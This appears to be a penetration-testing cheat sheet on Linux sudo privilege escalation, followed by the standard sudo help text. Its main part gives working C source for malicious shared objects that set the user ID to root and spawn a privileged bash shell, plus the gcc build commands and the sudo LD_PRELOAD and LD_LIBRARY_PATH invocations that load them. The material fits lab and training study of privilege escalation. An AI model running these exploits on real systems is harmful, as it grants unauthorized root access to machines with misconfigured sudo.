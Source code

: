 
sudo -l    lists what you can run

sudo su -



### env vars

if sudo -l shows environment variables like:
```sh
user@debian:~$ sudo -l
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
...
```

#### env_keep+=LD_PRELOAD

preload.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Create a shared object using the code located at /home/user/tools/sudo/preload.c:
`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so ./preload.c`

Run `more` or another with sudo perms, while setting the LD_PRELOAD env var to the full path of the new shared object:
`sudo LD_PRELOAD=/tmp/preload.so more`

#### env_keep+=LD_LIBRARY_PATH

```sh
user@debian:/tmp$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffaa16a000)
		...
		libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f1194436000)
		...
```

library_path.c
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code above:
`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):
`sudo LD_LIBRARY_PATH=/tmp apache2`

### Help

```sh
sudo - execute a command as another user

usage: sudo -h | -K | -k | -V
usage: sudo -v [-ABkNnS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-ABkNnS] [-g group] [-h host] [-p prompt] [-U user]
            [-u user] [command [arg ...]]
usage: sudo [-ABbEHkNnPS] [-r role] [-t type] [-C num] [-D directory]
            [-g group] [-h host] [-p prompt] [-R directory] [-T timeout]
            [-u user] [VAR=value] [-i | -s] [command [arg ...]]
usage: sudo -e [-ABkNnS] [-r role] [-t type] [-C num] [-D directory]
            [-g group] [-h host] [-p prompt] [-R directory] [-T timeout]
            [-u user] file ...

Options:
  -A, --askpass                 use a helper program for password prompting
  -b, --background              run command in the background
  -B, --bell                    ring bell when prompting
  -C, --close-from=num          close all file descriptors >= num
  -D, --chdir=directory         change the working directory before running
                                command
  -E, --preserve-env            preserve user environment when running command
      --preserve-env=list       preserve specific environment variables
  -e, --edit                    edit files instead of running a command
  -g, --group=group             run command as the specified group name or ID
  -H, --set-home                set HOME variable to target user´s home dir
  -h, --help                    display help message and exit
  -h, --host=host               run command on host (if supported by plugin)
  -i, --login                   run login shell as the target user; a command
                                may also be specified
  -K, --remove-timestamp        remove timestamp file completely
  -k, --reset-timestamp         invalidate timestamp file
  -l, --list                    list user´s privileges or check a specific
                                command; use twice for longer format
  -n, --non-interactive         non-interactive mode, no prompts are used
  -P, --preserve-groups         preserve group vector instead of setting to
                                target´s
  -p, --prompt=prompt           use the specified password prompt
  -R, --chroot=directory        change the root directory before running command
  -r, --role=role               create SELinux security context with specified
                                role
  -S, --stdin                   read password from standard input
  -s, --shell                   run shell as the target user; a command may
                                also be specified
  -t, --type=type               create SELinux security context with specified
                                type
  -T, --command-timeout=timeout terminate command after the specified time limit
  -U, --other-user=user         in list mode, display privileges for user
  -u, --user=user               run command (or edit file) as specified user
                                name or ID
  -V, --version                 display version information and exit
  -v, --validate                update user´s timestamp without running a
                                command
  --                            stop processing command line arguments
```

